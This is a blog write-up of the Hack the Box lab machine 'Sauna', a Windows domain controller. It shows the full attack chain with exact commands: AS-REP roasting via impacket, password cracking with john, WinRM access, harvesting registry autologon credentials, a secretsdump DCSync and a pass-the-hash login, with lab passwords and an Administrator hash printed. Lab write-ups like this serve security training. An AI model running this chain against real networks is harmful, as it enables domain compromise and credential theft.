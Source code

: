 +++
author = "Nick"
categories = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
date = 2020-07-18T14:59:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/02/info.png"
slug = "hack-the-box-sauna"
summary = "Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!"
tags = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
title = "Hack the Box - Sauna"

+++


Welcome back! Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA all_ports 10.10.10.175`

```
Nmap scan report for 10.10.10.175
Host is up (0.055s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-21 04:11:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/20%Time=5E4EE79D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m23s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-21T04:13:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.56 seconds
```

We see a few things right off the bat. A site being hosted on port 80, LDAP, WinRM and RPC ports available as well as SMB. We get back a domain for LDAP, `EGOTISTICAL-BANK.LOCAL0`.

We'll start with enumerating the web site by hand. While we do that we'll also kick of a `gobuster` scan.

Command:
`gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 15`

We'll also run the `nmap` script for ldap enumeration.

Command:
`nmap -n -sV --script "ldap*" -p 389 10.10.10.175`

We get a large output from this as well. At the bottom of the output we see we do indeed have a user. Hugo Smith. Now this doesn't quite match up with the users we saw on the about.html page, clever.

{{< figure src="__GHOST_URL__/content/images/2020/02/image.png" >}}

We continue to enumerate the website but don't find anything. Our `gobuster` comes back with the same results we saw while we were manually browsing the site and source.

Now if you are familiar with attacking Windows machines you might be familiar with Kerberos and how much fun it is to break! In this case the first thing we are going to try is to leverage the Active Directory setting called 'Disabling Kerberos Pre-Authentication'. In short, [without Kerberos Pre-Authentication a malicious attacker can directly send a dummy request for authentication](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx). In order for this to work, we need a list of user. We have one user for sure. So we'll create a list of potential Active Directory names that this user could go by. 

```
hsmith
hugosmith
h.smith
hu.smith
hugo.smith
smith.hugo
smithh 
smith.h
```

Command:
`python3 GetNPUsers.py -format john -usersfile ~/Documents/htb/sauna/users.lst EGOTISTICAL-BANK.local/ -o ~/Documents/htb/sauna/impacket_output.txt
`

We get a hit on `hsmith`. Now we know the naming convention. We also noticed the about page with a list of the team members on it. We can then infer the names of these users in Active directory to have the same convention as above. We will compile them into a list and run that through the same impacket script.

```
fsmith
scoins
btaylor
sdriver
hbear
```

Once we do that we see four Session errors, but we have 5 users! We have a hash!

{{< figure src="__GHOST_URL__/content/images/2020/02/sauna-user.gif" >}}

Now that we have a hash, let's crack it!

Command:
`john --wordlist=/usr/share/wordlists/rockyou.txt impacket_output.txt`

{{< figure src="__GHOST_URL__/content/images/2020/02/image-1.png" >}}

We have a password of `Thestroke23`. Awesome, now we can potentially leverage this in `Evil-WinRM`.

{{< figure src="__GHOST_URL__/content/images/2020/02/image-2.png" >}}

Turns out we can! We log in as fsmith and move right to the Desktop and snag our user.txt. Now it's time to start enumerating internally. We'll upload `WinPEAS` to the machine and run it to see what we can find.

Command:
`*Evil-WinRM* PS> upload /root/Tools/peas/winPEAS/winPEASbat/winPEAS.bat`
`*Evil-WinRM* PS> .\winPEAS.bat`

After you run the script, you should see some credentials. Alternatly, if you cannot get WinPEAS to run. You can run each of the queries it runs, manually. This isn't a terrible idea, especially if you could use some practice on enumerating your Windows machines. The key we are looking for is in this query:

Command:
`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`

{{< figure src="__GHOST_URL__/content/images/2020/02/image-3.png" caption="" >}}

We see a set of stored credentials! Let's pivot to this user just like we did with fsmith. However, this username doesn't match up with the users we saw. The enumerated username as shown by `WinPEAS` or manual enumeration is svc_loanmgr.

Command:
`./evil-winrm.rb -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`

{{< figure src="__GHOST_URL__/content/images/2020/02/image-4.png" >}}

Once we've connected as this service account we can do a few things. Normally I use `Bloodhound` to enumerate a second account but before I try that I try some basic things like Impackets [`secretdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py), WINpeas and some other internal commands. In this case, secrets dump works out!

Command:
`impacket-secretsdump -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175`

{{< figure src="__GHOST_URL__/content/images/2020/02/sauna_secret_dump.gif" >}}

You could also replicate this same technique by upload `mimikatz` and executing `lsadump`. Now we see we have an NTLM hash for our Administrator account. We have a few options.  We can crack the hash offline, we can use attempt to use some tools with these hashed credentials like `psexec.py` or we can login with the hash via `Evil-WinRM`. 

In this case I'll just login with `Evil-WinRM`.

Command:
`Evil-WinRM -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff`

{{< figure src="__GHOST_URL__/content/images/2020/02/admin_winrm.gif" >}}

And we are in! We head over to the Desktop and grab the flag! Root acquired! I hope you enjoyed this box. All in all I would say this is a great box for understanding Windows' entry techniques.

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



